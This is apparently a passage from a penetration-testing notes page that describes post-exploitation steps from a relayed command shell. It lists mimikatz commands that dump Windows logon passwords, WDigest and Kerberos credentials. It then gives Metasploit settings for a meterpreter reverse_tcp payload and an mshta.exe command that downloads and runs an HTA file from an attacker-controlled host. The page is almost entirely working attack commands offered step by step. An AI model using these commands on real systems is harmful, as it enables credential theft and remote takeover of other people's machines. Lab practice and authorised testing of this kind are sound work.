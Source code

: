 #### we can run mimicatz commands with mimi \[cmd]:

```
mimi sekurlsa::logonpasswords
mimi sekurlsa::wdigest
mimi sekurlsa::Kerberos​
```

## <mark style="color:red;">Meterpreter Shell</mark>

#### we can also use this cmd shell to pop a meterpreter shell:

```
use exploit/windows/misc/hta_server
set payload windows/x64/meterpreter/reverse_tcp
```

![](<../../.gitbook/assets/image (226).png>)

#### now in the cmd shell from multirelay type in :

```
mshta.exe http://192.168.56.1:8080/BdssjDFeW7IDPKF.hta
```

#### done!

### <mark style="color:orange;">other ways to get a meterpreter shell:</mark>

{% embed url="https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/" %}
